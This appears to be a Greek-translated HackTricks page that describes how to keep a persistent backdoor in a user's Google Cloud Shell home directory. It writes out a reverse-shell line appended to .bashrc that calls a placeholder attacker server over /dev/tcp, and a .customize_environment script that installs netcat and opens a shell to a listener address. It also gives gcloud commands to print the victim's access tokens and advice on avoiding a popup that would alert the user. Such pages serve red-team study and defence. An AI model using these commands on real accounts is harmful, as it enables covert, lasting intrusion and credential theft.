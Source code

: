 # GCP - Μόνιμη Επιμονή στο Cloud Shell

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στο** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;αποθετήρια github.

</details>

## Cloud Shell

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Μόνιμη Πίσω Πόρτα

Το [**Google Cloud Shell**](https://cloud.google.com/shell/) σας παρέχει πρόσβαση στη γραμμή εντολών στους πόρους του cloud σας απευθείας από τον περιηγητή σας χωρίς κανένα σχετιζόμενο κόστος.

Μπορείτε να αποκτήσετε πρόσβαση στο Google Cloud Shell από τη **ιστοσελίδα του web console** ή εκτελώντας την εντολή **`gcloud cloud-shell ssh`**.

Αυτή η κονσόλα έχει μερικές ενδιαφέρουσες δυνατότητες για επιτιθέμενους:

1. **Οποιοσδήποτε χρήστης της Google με πρόσβαση στο Google Cloud** έχει πρόσβαση σε ένα πλήρως εξουσιοδοτημένο παράδειγμα του Cloud Shell (Οι λογαριασμοί υπηρεσιών μπορούν, ακόμα και αν είναι Ιδιοκτήτες του οργανισμού).
2. Το συγκεκριμένο παράδειγμα θα **διατηρήσει τον κατάλογο του αρχικού χρήστη του για τουλάχιστον 120 ημέρες** αν δεν υπάρξει καμία δραστηριότητα.
3. Δεν υπάρχουν **δυνατότητες για έναν οργανισμό να παρακολουθεί** τη δραστηριότητα αυτού του παραδείγματος.

Αυτό σημαίνει βασικά ότι ένας επιτιθέμενος μπορεί να τοποθετήσει μια πίσω πόρτα στον κατάλογο του χρήστη και όσο ο χρήστης συνδέεται στο GC Shell κάθε 120 ημέρες τουλάχιστον, η πίσω πόρτα θα επιβιώσει και ο επιτιθέμενος θα λαμβάνει ένα κέλυφος κάθε φορά που εκτελείται απλά με την εντολή:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Υπάρχει ένα άλλο αρχείο στον φάκελο home με το όνομα **`.customize_environment`** που, αν υπάρχει, θα εκτελείται **κάθε φορά** που ο χρήστης έχει πρόσβαση στο **cloud shell** (όπως στην προηγούμενη τεχνική). Απλά εισάγετε την προηγούμενη πίσω πόρτα ή μία παρόμοια για να διατηρήσετε την επιμονή όσο ο χρήστης χρησιμοποιεί "συχνά" το cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Είναι σημαντικό να σημειωθεί ότι **την πρώτη φορά που εκτελείται μια ενέργεια που απαιτεί πιστοποίηση**, εμφανίζεται ένα αναδυόμενο παράθυρο εξουσιοδότησης στον περιηγητή του χρήστη. Αυτό το παράθυρο πρέπει να γίνει αποδεκτό πριν εκτελεστεί η εντολή. Εάν εμφανιστεί ένα απροσδόκητο αναδυόμενο παράθυρο, μπορεί να προκαλέσει υποψίες και πιθανώς να θέσει σε κίνδυνο τη μέθοδο διατήρησης που χρησιμοποιείται.
{% endhint %}

Αυτό είναι το αναδυόμενο παράθυρο από την εκτέλεση της εντολής `gcloud projects list` από το cloud shell (ως επιτιθέμενος) που προβάλλεται στη συνεδρία χρήστη του προγράμματος περιήγησης:


<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ωστόσο, εάν ο χρήστης έχει χρησιμοποιήσει ενεργά το cloudshell, το αναδυόμενο παράθυρο δεν θα εμφανιστεί και μπορείτε να **συλλέξετε τα διαπιστευτήρια του χρήστη με**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Πώς γίνεται η σύνδεση SSH

Βασικά, χρησιμοποιούνται αυτές οι 3 κλήσεις API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (θα σας επιτρέψει να προσθέσετε το δημόσιο κλειδί που δημιουργήσατε τοπικά)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (θα σας επιτρέψει να ξεκινήσετε την εικονική μηχανή)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (θα σας πει τη διεύθυνση IP του Google Cloud Shell)

Ωστόσο, μπορείτε να βρείτε περαιτέρω πληροφορίες στο [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Αναφορές

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* &#x20;github repos.

</details>
